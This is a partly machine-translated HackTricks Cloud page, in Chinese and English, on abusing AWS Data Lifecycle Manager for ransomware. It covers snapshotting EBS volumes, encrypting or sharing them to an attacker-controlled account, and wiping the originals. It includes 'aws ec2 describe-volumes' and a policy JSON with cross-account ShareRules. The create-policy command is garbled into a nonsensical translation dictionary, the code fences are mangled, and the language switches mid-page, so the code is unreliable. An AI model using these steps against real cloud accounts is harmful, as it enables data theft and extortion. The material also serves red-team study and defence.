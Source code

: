 # AWS - 数据生命周期管理器

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 数据生命周期管理器（DLM）

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

勒索软件攻击可以通过加密尽可能多的EBS卷，然后擦除当前的EC2实例、EBS卷和快照来执行。为了自动化这种恶意活动，可以使用Amazon DLM，使用来自另一个AWS账户的KMS密钥加密快照，并将加密的快照转移到不同的账户。或者，他们可以将快照无加密地转移到他们管理的账户，然后在那里对其进行加密。虽然直接加密现有的EBS卷或快照并不简单，但可以通过创建新卷或快照来实现。

首先，将使用命令收集有关卷的信息，例如实例ID、卷ID、加密状态、附件状态和卷类型。
```aws ec2 describe-volumes```

Secondly, one will create the lifecycle policy. This command employs the DLM API to set up a lifecycle policy that automatically takes daily snapshots of specified volumes at a designated time. It also applies specific tags to the snapshots and copies tags from the volumes to the snapshots. The policyDetails.json file includes the lifecycle policy's specifics, such as target tags, schedule, the ARN of the optional KMS key for encryption, and the target account for snapshot sharing, which will be recorded in the victim's CloudTrail logs.


```bash
```json
{
  "aws dlm create-lifecycle-policy": "aws dlm create-lifecycle-policy",
  "--description": "--description",
  "My first policy": "我的第一个策略",
  "--state": "--state",
  "ENABLED": "启用",
  "--execution-role-arn": "--execution-role-arn",
  "arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole": "arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole",
  "--policy-details": "--policy-details",
  "file://policyDetails.json": "file://policyDetails.json"
}
```
```

A template for the policy document can be seen here:
```bash
```json
{
"PolicyType": "EBS_SNAPSHOT_MANAGEMENT",
"ResourceTypes": [
"VOLUME"
],
"TargetTags": [
{
"Key": "示例键",
"Value": "示例值"
}
],
"Schedules": [
{
"Name": "每日快照",
"CopyTags": true,
"TagsToAdd": [
{
"Key": "快照创建者",
"Value": "DLM"
}
],
"VariableTags": [
{
"Key": "成本中心",
"Value": "财务"
}
],
"CreateRule": {
"Interval": 24,
"IntervalUnit": "HOURS",
"Times": [
"03:00"
]
},
"RetainRule": {
"Count": 14
},
"FastRestoreRule": {
"Count": 2,
"Interval": 12,
"IntervalUnit": "HOURS"
},
"CrossRegionCopyRules": [
{
"TargetRegion": "us-west-2",
"Encrypted": true,
"CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
"CopyTags": true,
"RetainRule": {
"Interval": 1,
"IntervalUnit": "DAYS"
}
}
],
"ShareRules": [
{
"TargetAccounts": [
"123456789012"
],
"UnshareInterval": 30,
"UnshareIntervalUnit": "DAYS"
}
]
}
],
"Parameters": {
"ExcludeBootVolume": false
}
}
```
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
